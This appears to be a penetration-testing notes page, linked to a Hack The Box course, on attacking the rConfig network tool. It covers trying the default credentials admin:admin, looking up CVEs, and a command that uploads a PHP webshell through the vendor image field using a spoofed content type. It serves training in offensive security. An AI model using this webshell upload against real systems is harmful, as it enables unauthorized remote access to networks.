 # rConfig

[![shells_and_payloads](../../../../cybersecurity/_badges/htb/shells_and_payloads.svg)](https://academy.hackthebox.com/course/preview/shells--payloads)

<div class="row row-cols-lg-2"><div>

[rConfig](https://www.rconfig.com/) is a network configuration management tool. At least from the [GitHub](https://github.com/rconfig/rconfig) <small>(0.5k ⭐)</small> repository, it doesn't seem very popular.

* Look for web interface on port 80
* Test default credentials `admin:admin`

Look for well-known CVEs, the version is at the bottom of the page.
</div><div>

If successfully logged, you may try to upload a shell. Navigate to `Devices > Vendors`, click on `Add Vendor` and try to exploit the image field. For reference, with [onectf](https://github.com/QuentinRa/onectf/blob/main/docs/uffuf.md):

```shell!
$ onectf uffuf -u 'https://IP/lib/crud/vendors.crud.php' -v -k --nr -H 'Cookie: PHPSESSID=XXX' -d 'vendorName=onectf&add=add&editid=' -p vendorLogo -F webshell.php -Fn imageFUZZ -Ft image/gif -W .php
[302 or 200] means OK
[301] means KO
```
</div></div>